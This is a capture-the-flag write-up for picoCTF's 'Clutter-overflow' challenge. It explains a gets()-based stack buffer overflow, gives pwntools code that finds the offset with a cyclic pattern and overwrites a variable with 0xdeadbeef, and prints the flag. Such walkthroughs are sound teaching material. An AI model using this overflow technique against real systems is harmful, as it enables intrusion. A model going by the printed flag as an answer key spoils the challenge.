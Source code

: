 # Clutter-Overflow

## Introduction

Clutter-overflow is a 150 point binary exploitation problem from picoCTF. The
description states:

> Clutter, clutter everywhere and not a byte to use.
> `nc mars.picoctf.net 31890`

We are given the source, the compiled executable, and the address:port to
connect on.

## Information Gathering

No hints were given, but we do have source code.

### Vulnerability Mitigations

```shell
$ checksec chall
[*] '/home/sean/Dev/picoCTF/binary-exploitation/clutter-overflow/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

### Static

At the top, there is a header defined obnoxiously to make some sort of ASCII
art. It looks like a living room. There is only one function, `main`, and it
instantiates an integer and a buffer of size 0x100 onto the stack called
`clutter`, prints out the header ascii art, and calls `gets` to place user
input into `clutter`. It then checks if the integer located above the `clutter`
buffer on the stack is equivalent to `0xdeadbeef`. If so, the remote server
will print out the flag for us.

### Dynamic

If we run the program with a simple input that will cause a segmentation error
we get the following result:

```
My room is so cluttered...
What do you see?
$ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaa
code == 0x6161616161616161
```

Because it tells us the value of `code`, we can easily determine the offset.
This means we don't even need to touch a debugger. Nice!

## Strategy

`gets` is a bad function. Even the `man` page tells you not to use it
(actually). Let's send a cyclic pattern to `gets` and observe what the result
of the integer `code` is. We should overwrite this value and from there we can
calculate our offset to `code` on the stack. Once we know the offset, we can
send `0xdeadbeef` and get our flag.

We get our offset by applying the cyclic pattern and then searching for it in
the output.

```python
def calc_offset():
    '''Determine what the offset it to `code` on the stack. This is the
    location that we will write `0xdeadbeef`.
    '''

    # We don't want to reuse our existing process because this will cause the
    # program to fault.
    conn = process([exe.path])

    # Generate our cyclic pattern.
    pattern = cyclic(length=NUM_CYCLIC_BYTES, n=exe.bytes)

    # Send out pattern to the program.
    conn.sendlineafter(delim=BANNER, data=pattern)

    # The program conveniently tells us what the value of `code` is after we
    # have overwritten it, so let's parse that.
    code = conn.recvline_containsS(items='code == ')
    code = code.partition('code == 0x')[2]
    code = int(code, base=16)

    offset = cyclic_find(code, n=exe.bytes)
    log.info(f'The offset to code is : {offset}')

    return offset
```

We then tack on `0xdeadbeef` to the end, creating our payload. If we send that
over to the remote server, we get the flag!

```python
# Create our payload at the offset we just learned.
    payload = fit({
        offset: MAGIC_PATTERN
    })

    # Send it!
    r.sendlineafter(delim=BANNER, data=payload)

    # Get the flag back.
    flag = r.recvline_contains(b'picoCTF')
```

And the flag is: `picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`.
